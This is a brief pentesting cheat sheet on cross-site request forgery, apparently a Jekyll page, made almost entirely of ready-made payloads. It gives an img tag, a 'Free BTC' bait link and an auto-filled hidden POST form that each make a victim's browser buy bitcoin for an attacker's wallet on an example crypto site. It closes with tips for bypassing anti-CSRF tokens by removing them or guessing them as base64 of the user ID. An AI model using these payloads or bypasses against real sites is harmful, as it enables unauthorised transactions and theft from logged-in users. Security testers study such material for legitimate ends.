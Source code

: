 ```yaml
---
layout: post
title: "csrf/xsrf"
keywords: "csrf, xsrf, cross-site request forgery"
---
```

#### GET

```
<img src="http://cryptosite.com/buy.php?wallet=hacker&amount=100&type=BTC" />
<a href="http://cryptosite.com/buy.php?wallet=hacker&amount=100&type=BTC">Free BTC</a>
```

#### POST

```
<form action="http://cryptosite.com/buy.php" method="POST">
    <input type="hidden" name="wallet" value="hacker">
    <input type="hidden" name="amount" value="100">
    <input type="hidden" name="type" value="BTC">
    <input type="submit" value="Click here to win">
</form>
```

#### Bypass Protection

1. Try remove the `xsrf_token` completely
2. Reusable? Guess the xsrf token eg. `base64(user_id)` (try decode in CyberChef)